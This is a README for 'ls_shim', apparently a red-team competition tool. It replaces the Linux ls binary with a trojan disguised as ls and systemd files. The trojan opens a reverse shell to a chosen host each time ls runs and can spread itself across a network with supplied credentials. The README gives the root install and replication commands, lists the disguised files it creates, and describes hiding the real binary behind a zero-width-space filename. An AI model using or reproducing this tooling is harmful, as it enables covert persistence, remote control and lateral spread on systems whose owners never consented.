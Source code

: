 # ls_shim

Tool that shims the `ls` binary and establishes a reverse shell with a specified host. This tool disguises itself as the `ls` binary as well as part of `systemd`.

## Usage

This tool runs every time the user runs the `ls` command, unless an instance of it is already running .It will reach out to the host IP specified in `systemd-make.go`, receive an IP-based port from the host, and then open a reverse shell to the host on that port. Please refer to the documentation of the `shim_handler` project on how to setup the host.

## Dependencies

To run this project, you will need to have `golang` installed.
You can run `deploy/dependencies.sh` to install this automatically, or
run the commands below based on your distro:

Ubuntu/Debian
```bash
apt-get install golang-go
```
CentOS/RHEL
```bash
yum install golang
```
Arch
```bash
pacman -S go
```

## Installation

To install this project, simply run the `install.sh` script as root. You may also optionally supply the `--replicate` flag to have ls_shim install itself onto every other device on the network..Any parameters following `--replicate` will be passed to `deploy.go`. Please see the `deploy/readme.md` for more information on deployment arguments. Examples:

```bash
#Basic install
./install.sh

#Install with replication
#This will install on the remote system, and run deploy.go with default parameters: -u whiteteam -p whiteteam -m
./install.sh --replicate

#Installation examples with custom replication parameters
./install.sh --replicate -u jsmith -p foo -v
./install.sh --replicate -u jsmith --password-list foo,bar,hi -m
```


## Files created/modified

This project will create the following files:
```
/usr/bin/systemd-make
/usr/bin/systemd-restart
/usr/sbin/grub-display
/var/run/systemd.pid
```

In addition to these files, the installation will replace the `ls` binary with the compiled result from `ls_over.go`, and rename the `ls` binary to have a zero-width space in its filename.